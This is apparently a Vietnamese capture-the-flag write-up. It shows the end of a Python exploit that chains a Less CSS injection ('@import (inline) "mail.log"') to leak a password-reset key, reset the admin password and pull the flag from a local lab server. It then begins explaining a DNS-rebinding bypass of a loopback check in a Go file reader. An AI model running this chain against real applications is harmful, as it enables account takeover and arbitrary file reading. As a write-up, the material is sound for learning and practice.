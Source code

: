 ```py
    def login_get_flag(self):
        url = f"{self.baseURL}/login"
        data = {
            "username": "admin",
            "password": self.newPassword
        }
        response = requests.post(url=url, data=data, timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Login Success: ", response.text, "\n")
        else:
            print(f"[-] Login Failed: ", response.text, "\n")

        flag = re.search(r"(flag\{.*?\})", response.text, re.IGNORECASE)
        if flag:
            print(f"[+] DONE FLAG HERE: \n", flag.group(1))
        else:
            print(f"[-] Not Flag")

    def run(self):
        self.trigger_reset_mail()
        self.leak_secret_key()
        css_text = self.fetch_image()
        if not css_text:
            print(f"[+] Not Found Key")
            return
        key = self.pass_reset_key(css_text)
        if not key:
            print(f"[-] Secret key regex not found")
            return
        print(f"[+] Got Key: ", key)
        self.pass_reset(key)
        self.login_get_flag()


if __name__ == "__main__":
    BASE_URL = "http://127.0.0.1:3000"
    newPassword = "123"
    payload = '#5C62D6;@import (inline) "mail.log";'
    timeout = 5.0
    exploit = Exploit(BASE_URL, newPassword, payload, timeout)
    exploit.run()
```
Ouput: <br>
<img width="626" height="347" alt="image" src="https://github.com/user-attachments/assets/76b05b6b-caed-4ac5-b444-f41e74459d76" /> <br>
## Kết Luận
Những gì tôi học được: <br>
> 1. Lợi dụng Less CSS Injection để đọc file tùy ý RCE

## Writeup HTTP File Reader
<img width="911" height="314" alt="image" src="https://github.com/user-attachments/assets/c16fd814-3605-40c2-b13f-a2bc32261a8e" /> <br>
Không có gì đặc biệt ở đây chúng ta cùng xem mã nguồn như sau ở <b>main.go</b> nó lấy 3 trường host, port, path rồi server tự http.get() tới http://{host}/{port}/{path} để hiển thị nội dung trả về chúng ta và chặn địa chỉ IP LoopBack: <br>
Ở đây lỗi TOCTOU / DNS rebinding: họ kiểm tra IP đã resolve (không phải loopback), nhưng khi request thật vẫn dùng host (tên miền) chứ không ghim IP đã kiểm tra — cho phép đổi bản ghi DNS giữa lúc “check” và “use” bằng cách đó chúng ta có thể tạo ra hostname chuyển đổi giữa 2 IP để qua check.
```go
r.POST("/request", func(c *gin.Context) {
		var input RequestInput
		if err := c.ShouldBind(&input); err != nil {
```